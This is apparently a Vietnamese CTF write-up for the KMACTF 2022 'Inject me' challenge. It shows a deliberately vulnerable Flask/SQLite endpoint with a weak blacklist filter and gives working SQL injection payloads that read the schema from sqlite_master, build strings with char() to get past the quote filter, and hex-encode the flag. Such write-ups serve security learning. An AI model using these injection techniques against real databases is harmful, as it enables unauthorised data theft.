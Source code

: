 # KMACTF 2022 dot 2

## Inject me

**Source**:
```python
from flask import Flask, render_template, render_template_string, request
import sqlite3
import re

# ............

def waf(str):
    if (len(str)) > 85 or "union" in str.lower():
        return False

    black_list = ["'", '"', '*', '\\', '/', '#', ';', '-']
    for c in black_list:
        if c in str:
            str = str.replace(c, "")

# ......

@app.route('/query',methods = ['GET'])
def addrec():
    if request.args.get("query") != "":
        query = request.args.get("query")
    
    query = waf(query)
    
    if query == False:
        return render_template_string("Dont cheat my fen =))")
    else:
        try:
            cur = get_db().execute('SELECT msg FROM ' + query + ' where msg like "%" and msg not like "%KMACTF{%" limit 1')
            result = cur.fetchall()

            if len(result) == 0:
                return render_template_string("No result")

            cur.close()
            return render_template("index.html", result = result)
        except:
            return render_template_string("Something went wrong")

# ............
```

```sql
SELECT msg FROM ' + query + ' where msg like "MSG-%" and msg not like "%KMACTF{%" limit 1
```
SQLi sau FROM statement.

![Screenshot (919)](https://user-images.githubusercontent.com/71699412/174470125-c56d26f1-adbd-4513-b025-dc0d7012adf1.png)

Ở đây ta chưa biết table name lẫn column name. Ta có thể dùng kĩ thuật `nested query` để lấy `sql` từ `sqlite_master`. Tuy nhiên, column trả về ở đây buộc phải là `msg` do đó ta alias `sql` thành `msg`.

```
(select sql as msg from sqlite_master)
```

![Screenshot (923)](https://user-images.githubusercontent.com/71699412/174470195-49853851-f522-496c-9671-33dae1752c55.png)

Tuy nhiên trả về `No result` là bởi sau `where`, `msg` phải bắt đầu với `MSG-` do đó ta cần thêm prefix là `MSG-`. Ngoài ra, các kí tự như `'` hay `"` bị block nên ta dùng function `char()` để bypass.
```
(select (char(77, 83, 71, 45) || sql) as msg from sqlite_master)
```

![Screenshot (921)](https://user-images.githubusercontent.com/71699412/174470203-6564543d-66c2-41b1-8fdb-4bb290500fc5.png)

Có column và table ta lấy flag thôi, chú ý tiếp điều kiện `not like "%KMACTF{%"` hay trong result trả về không thể chứa cụm trên, để bypass ta encode result thành hex.

```sql
(select (char(77, 83, 71, 45) || hex(flag)) as msg from flag)
```

![Screenshot (922)](https://user-images.githubusercontent.com/71699412/174470225-b3caf1d9-cc85-48d8-94b4-dae3753db1b5.png)

**Convert**:
```bash
echo 4B4D414354467B4A7573742073696D706C652073716C20696E6A656374696F6E207769746820736F6D6520747269636B737D | xxd -r -p
```

**flag**: `KMACTF{Just simple sql injection with some tricks}`

## pass

